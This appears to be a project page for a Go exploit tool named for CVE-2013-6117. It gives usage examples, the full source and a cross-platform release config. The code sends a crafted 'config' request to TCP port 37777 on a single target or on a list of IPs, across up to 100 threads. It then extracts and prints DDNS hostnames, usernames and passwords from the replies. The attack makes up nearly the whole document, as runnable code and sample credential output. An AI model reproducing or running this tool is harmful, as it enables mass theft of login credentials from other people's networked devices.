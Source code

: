 Usage
-----

    $ ./CVE-2013-6117 -h
    Options:

      -h, --help       display help information
      -f, --filename   File containing list of IP addresses
      -t, --target     Target IP
      -n, --threads    No of concurrent threads (default: 100)

    $ ./CVE-2013-6117 -f hostfile.txt
    1.2.4.4|name.no-ip.org:80|username|password

    $ ./CVE-2013-6117 -t 1.2.3.4
    1.2.4.4|name.no-ip.org:80|username|password

CVE-2013-6117.go
----------------

    package main
    import (
        "net"
        "os"
        "strings"
        "fmt"
        "sync"
        "bufio"
        "time"
        "github.com/mkideal/cli"
    )
    func readLines(path string) ([]string, error) {
      file, err := os.Open(path)
      if err != nil {
        return nil, err
      }
      defer file.Close()

      var lines []string
      scanner := bufio.NewScanner(file)
      for scanner.Scan() {
        lines = append(lines, scanner.Text())
      }
      return lines, scanner.Err()
    }
    func getData(servAddr string,data string) {
        tmpResult:=data
        if strings.Contains(tmpResult, "&&G4-IP DDNS&&"){
            s := strings.Split(tmpResult, "&&G4-IP DDNS&&")
            if  len(s)>0 {
                s := strings.Split(tmpResult, "&&G4-IP DDNS&&")[1]
                s1 := strings.Split(s, "&&")
                tmpip:=s1[0]
                tmpport:=s1[1]
                ddns:=tmpip+":"+tmpport
                tmpusername:=s1[3]
                tmppassword:=s1[4]
                if len(tmpusername)>0 {
                    fmt.Println(servAddr+"|"+ddns+"|"+tmpusername+"|"+tmppassword)
                }
            }
        }
        if strings.Contains(tmpResult, "&&NO-IP DDNS&&"){
            s := strings.Split(tmpResult, "&&NO-IP DDNS&&")
            if  len(s)>0 {
                s := strings.Split(tmpResult, "&&NO-IP DDNS&&")[1]
                s1 := strings.Split(s, "&&")
                tmpip:=s1[0]
                tmpport:=s1[1]
                ddns:=tmpip+":"+tmpport
                tmpusername:=s1[3]
                tmppassword:=s1[4]
                if len(tmpusername)>0 {
                    fmt.Println(servAddr+"|"+ddns+"|"+tmpusername+"|"+tmppassword)
                }
            }
        }
        if strings.Contains(tmpResult, "&&Dyndns DDNS&&"){
            s := strings.Split(tmpResult, "&&Dyndns DDNS&&")
            if  len(s)>0 {
                s := strings.Split(tmpResult, "&&Dyndns DDNS&&")[1]
                s1 := strings.Split(s, "&&")
                tmpip:=s1[0]
                tmpport:=s1[1]
                ddns:=tmpip+":"+tmpport
                tmpusername:=s1[3]
                tmppassword:=s1[4]
                if len(tmpusername)>0 {
                    fmt.Println(servAddr+"|"+ddns+"|"+tmpusername+"|"+tmppassword)
                }
            }
        }
    }
    func connect(urlChan chan string) {
        for servAddr := range urlChan {
            strEcho := "\xa3\x00\x00\x00\x00\x00\x00\x00\x63\x6f\x6e\x66\x69\x67\x00\x00\x8c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
            tcpAddr, err := net.ResolveTCPAddr("tcp", servAddr+":37777")
            if err == nil {
                var timeoutSec=5
                timeout := time.Duration(time.Duration(timeoutSec) * time.Second)

                d := net.Dialer{Timeout: timeout}
                conn, err := d.Dial("tcp", servAddr+":37777")

                if err == nil {
                    _, err = conn.Write([]byte(strEcho))
                    if err == nil {
                        reply := make([]byte, 1024)
                        _, err = conn.Read(reply)
                        if err == nil {
                            getData(servAddr,string(reply))
                        }

                    }
                    conn.Close()
                }
            }
            _=tcpAddr
        }
    }
    type argT struct {
        cli.Helper
        Filename string `cli:"f,filename" usage:"File containing list of IP addresses"`
        Targetip string `cli:"t,target" usage:"Target IP"`
        Threads int  `cli:"n,threads" usage:"No of concurrent threads (default: 100)"`
    }

    func main() {
        var workersCount=100
        var contentList []string
        cli.Run(new(argT), func(ctx *cli.Context) error {
            argv := ctx.Argv().(*argT)
            if len(argv.Filename)>0 {
                lines, err2 := readLines(argv.Filename)
                if err2==nil {
                    for _, v := range lines {
                        v=strings.TrimSpace(v)
                        if len(v)>0 {
                            contentList = append(contentList, v)
                        }
                    }
                } else {
                    fmt.Println(err2)
                }
                _ = err2
            }
            if argv.Threads>0 {
                workersCount=argv.Threads
            }
            if len(argv.Targetip)>0 {
                contentList = append(contentList, argv.Targetip)
            }

            return nil
        })
        urlChan := make(chan string)
        var wg1 sync.WaitGroup
        wg1.Add(workersCount)

        for i := 0; i < workersCount; i++ {
            go func() {
                defer wg1.Done()
                connect(urlChan)
            }()
        }

        completed := 0
        for _, each := range contentList {
            urlChan <- each
            completed++
        }
        close(urlChan)
        wg1.Wait()
    }

goreleaser.yml
--------------

    build:
      main: ./CVE-2013-6117.go
      goos:
        - linux
        - darwin
        - windows
      goarch:
        - 386
        - amd64
        - arm
        - arm64
    brew:
      github:
        owner: milo2012
        name: homebrew-tap
      folder: Formula